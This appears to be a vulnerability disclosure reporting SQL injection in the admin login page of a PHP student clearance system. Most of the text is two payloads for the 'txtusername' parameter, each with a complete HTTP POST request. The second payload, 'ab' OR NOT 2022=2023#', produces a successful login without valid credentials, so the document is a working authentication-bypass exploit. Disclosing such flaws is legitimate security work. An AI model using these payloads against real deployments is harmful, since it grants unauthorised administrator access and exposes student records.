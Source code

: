 # Web-Based Student Clearance System v1.0 by Walterjnr1 has SQL injection

BUG_Author:patrik Zhang

vendors:https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html

Vulnerability File: /student_clearance_system_Aurthur_Javis/Admin/login.php

POST parameter 'txtusername' exists SQL injection vulnerability

Payload1: txtusername=ab' OR NOT 2022=2022#&txtpassword=cd&btnlogin=

```
POST /student_clearance_system_Aurthur_Javis/Admin/login.php HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/student_clearance_system_Aurthur_Javis/Admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=m35rlvm4ntdi5lrago4gk6n91m
Connection: close

txtusername=ab%27+OR+NOT+2022%3D2022%23&txtpassword=cd&btnlogin=
```

Login error

![image](https://github.com/byesec/pic/blob/main/errorLogin.png)

Payload2: txtusername=ab' OR NOT 2022=2023#&txtpassword=cd&btnlogin=

```
POST /student_clearance_system_Aurthur_Javis/Admin/login.php HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/student_clearance_system_Aurthur_Javis/Admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=m35rlvm4ntdi5lrago4gk6n91m
Connection: close

txtusername=ab%27+OR+NOT+2022%3D2023%23&txtpassword=cd&btnlogin=
```

Login successful

![image](https://github.com/byesec/pic/blob/main/successLogin.png)

